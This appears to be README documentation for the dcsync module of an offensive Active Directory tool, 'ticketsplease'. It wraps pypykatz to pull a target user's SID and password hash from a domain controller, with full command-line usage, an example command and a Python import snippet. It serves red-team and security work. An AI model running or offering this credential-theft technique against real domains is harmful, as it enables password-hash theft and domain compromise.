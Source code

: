 # dcsync Module

This module will perform a DCSync operation to retrieve the SID and password hash of a given user. This wraps the `pypykatz` library DCSync handling.

## Usage

This module can be used via the command line or it can be imported as a module into your Python code base.

```
usage: ticketsplease dcsync [-h] --dc-ip DC_IP --domain DOMAIN --target-user TARGET_USER 
                            --username USERNAME [--password PASSWORD] [--password-hash PASSWORD_HASH]
                            [--debug]

Retrieve SID and password hash via DCSync for a target user

optional arguments:
  -h, --help            show this help message and exit

  --dc-ip DC_IP         IP address of the target Domain Controller.

  --domain DOMAIN       Target domain the Domain Controller is in (i.e. company.com).

  --target-user TARGET_USER
                        Target user to retrieve the SID and password hash for.

  --username USERNAME   Username to perform DCSync operations with.

  --password PASSWORD   Password of the account to perform DCSync operations with.

  --password-hash PASSWORD_HASH
                        Password hash of the account to perform DCSync operations with
                        (supersedes --dcsync-password).

  --debug               Enable debugging.

example usage:

    ticketsplease dcsync --domain company.com --target-user user --username admin \
                         --password password --dc-ip 10.10.10.10
```

## Importing the Module

```python
import asyncio
from ticketsplease.modules.dcsync import DCSYNC

(user_sid, user_hash) = asyncio.run(
    DCSYNC.run(
        dc_ip,
        domain,
        target_user,
        username,
        password,
        hash,
    )
)
```